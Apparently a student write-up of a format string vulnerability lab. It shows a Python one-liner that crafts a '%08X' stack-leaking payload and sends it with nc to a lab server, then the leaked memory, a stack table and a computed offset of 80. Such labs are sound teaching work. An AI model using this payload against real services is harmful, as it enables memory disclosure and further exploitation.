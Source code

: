 ```bash
python -c 'print "AAAA"+"%08X."*80' > badfile
nc -u 10.0.2.4 9090 < badfile
```
Then on the server:
```
The ebp value inside myprintf() is: 0xbffff038
AAAA00000000.00000064.B7FFF918.0804A014.B7FE97A2.B7FFFAD0.BFFFF0E0.00000001.BFFFF038.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.E0B1EB00.00000003.BFFFF0E0.BFFFF6C8.080487E5.BFFFF0E0.BFFFF054.00000010.08048704.00000000.00000010.00000003.82230002.00000000.00000000.00000000.9F810002.0F02000A.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.00000000.41414141.
The value of the 'target' variable (after): 0x11223344
```

So the stack looks like:

` ` | `0 1 2 3 ` | `4 5 6 7 ` | `8 9 A B `| `C D E F `
----|----|---| ---  | ---
`0xbfffebd0`|  | `00000000`|`00000064`|`B7FFF918`
`0xbfffec10`| `0804A014`|`B7FE97A2`|`B7FFFAD0`|`BFFFF0E0`
`0xbfffec50`| `00000001`|`BFFFF038`|`00000000`|`00000000`
`0xbfffec90`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffecd0`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffed10`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffed50`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffed90`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffedd0`| `00000000`|`00000000`|`00000000`|`E0B1EB00`
`0xbfffee10`| `00000003`|`BFFFF0E0`|`BFFFF6C8`|`080487E5`
`0xbfffee50`| `BFFFF0E0`|`BFFFF054`|`00000010`|`08048704`
`0xbfffee90`| `00000000`|`00000010`|`00000003`|`82230002`
`0xbfffeed0`| `00000000`|`00000000`|`00000000`|`9F810002`
`0xbfffef10`| `0F02000A`|`00000000`|`00000000`|`00000000`
`0xbfffef50`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffef90`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbfffefd0`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff010`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff050`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff090`| `00000000`|`00000000`|`00000000`|`00000000`
`0xbffff0d0`| **`41414141`**| | |

`A` is `0x41`. So the distance can be considered as 80. 

1. `0xbffff0e0`
2. `0xbffff038`
3. `0xbffff0e0` + `80`

The offset is 80.

# Task 3
